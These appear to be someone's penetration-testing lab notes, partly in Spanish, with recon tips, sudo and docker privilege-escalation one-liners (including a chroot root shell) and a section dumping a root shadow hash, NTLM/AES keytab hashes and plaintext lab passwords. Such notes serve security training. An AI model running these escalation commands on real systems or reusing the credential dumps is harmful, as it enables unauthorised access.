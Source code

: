 # 🌴 Machine's notes

### WEB:

* Always find subdomains: gobuster with `--append-domain`
* Look always for metadata in .pdf files `exiftool file.pdf` to discover versions and creator information
* After obtaining any hashes, is compulsory to crack them with john (using rockou) or hashcat
* After `sudo -l` , we can find something  like this:&#x20;

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

Execute it: `sudo -u deploy /home/deploy/password-manager` to have deploy's privileges

* If any user has docker acces, try `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`as said in Gtfobins to obtain a root shell
* Always scan UDP ports with `-sU` in `nmap`
* Check the reverse connections (ping or revershe shell) with tcpdump. `sudo tcpdump -i tun0 port 4444`or `icmp` instead of `port 4444` &#x20;
* If there are special permissions to execute a file observed in `sudo -l` is importan to use it with the exact path



#### Pending tasks

* Nosqli

cat aliased con bat. se mira en which cat. para verlo es `cat -l java` o `cat -l bash`

#### S4vitar 27/12/22

* flameshot to capture the screen with tools
* launchpad.net to now the versions of ubuntu, apache... Siendo focal&#x20;
* cat targeted | grep http | grep -oP '\d{1,5}/tcp | awk '{print $1}' FS="/" | while read prot; do echo -e "\n\[+] Escaneo en http://192.168.111.36:$port:\n"; whatweb http:192.168.111.36:$port; done
* whatweb http://192.168.111.36:13380
* `curl -s -X GET "HTTP://LEEROY.htb:13389/" | grep -oP 'plugins/\K[^/]+' | sort -u`
* `searchsploit bbpress` \`searchsploit&#x20;
* [https://chat.openai.com/auth/login](https://chat.openai.com/auth/login)
* infosecmachines.io
* Importante como mejora la shell.
* println contraseñas jenkin
* `hashid` to know hash types

## Hacktricks&#x20;

root:$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.:0:0:root:/root:/bin/bash



john aes256 ticket: 581c7f88dc74998ed360fd0f9a7840a36a5c2dd78db363813677dd79f92215d2



/opt/specialfiles/carlos.keytab

/etc/krb5.keytab  carlos Password5



/home/carlos@inlanefreight.htb/.scripts/kerberos\_script\_test.sh

```
kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```

svc\_workstations@inlanefreight.htb Password4



&#x20;zip Destiny2022!

docx 987654321

jason:C4mNKjAtL2dydsYa6

dennis  7AUgWWQEiMPdqx









&#x20;

/opt/specialfiles/carlos.keytab



\[+] Keytab File successfully imported.&#x20;

REALM : INLANEFREIGHT.HTB&#x20;

SERVICE PRINCIPAL : carlos/&#x20;

NTLM HASH : a738f92b3c08b424ec2d99589a9cce60&#x20;

AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4

kira L0vey0u1!

login: mike password: 7777777

